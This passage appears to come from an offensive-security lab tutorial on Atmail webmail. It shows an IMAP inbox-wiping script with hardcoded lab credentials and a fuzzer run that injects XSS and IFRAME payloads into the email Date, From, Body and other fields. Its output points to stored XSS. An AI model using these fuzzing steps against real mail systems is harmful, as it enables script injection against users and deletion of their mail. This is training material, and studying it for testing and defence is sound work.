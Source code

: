 #!/usr/bin/python

import imaplib,sys

if len(sys.argv) != 2:

   print "(+) usage: %s <target>" % sys.argv[0]
   sys.exit(-1)

atmail = sys.argv[1]

print atmail

box = imaplib.IMAP4(atmail, 143)
box.login("admin@offsec.local","123456")
box.select('Inbox')

typ, data = box.search(None, 'ALL')

for num in data[0].split():
   box.store(num, '+FLAGS', '\\Deleted')

box.expunge()
box.close()
box.logout()
Listing 4 - Atmail inbox cleanup script

As a result of our first test, we have discovered that the XSS vulnerability occurs in the Payload-2-SCRIPT w/Alert()-injectedin-Date email, suggesting that the email date field can be injected with JavaScript that is not properly escaped before being reflected in the server response.

Usually, the presence of such a vulnerability means that we are likely to discover more of the same. We can try running the fuzzer again, this time with payload number 13, which contains code for an IFRAME injection.

kali@kali:~$ ./xss-webmail-fuzzer.py -t admin@offsec.local -f attacker@offsec.local -s atmail -c plain -j onebyone_main -r 13

##############################################################
######   XSS WebMail Fuzzer - Offensive Security 2018   ######
##############################################################

[+] Fetching last XSS cheetsheet from ha.ckers.org ...
[+] Replaying payload 13
[+] Sending email Payload-13-IFRAME-injectedin-From
[+] Sending email Payload-13-IFRAME-injectedin-To
[+] Sending email Payload-13-IFRAME-injectedin-Date
[+] Sending email Payload-13-IFRAME-injectedin-Subject
[+] Sending email Payload-13-IFRAME-injectedin-Body
Listing 5 - Sending payload number 13 to each email field

Figure 2: Finding stored XSS using payload 13
Figure 2: Finding stored XSS using payload 13
Similar to our first test, more JavaScript popups appear from the Payload-13-IFRAME-injectedin-Body and Payload-13-IFRAME-injectedin-Date payloads, which again suggests insufficient sanitization of these fields.
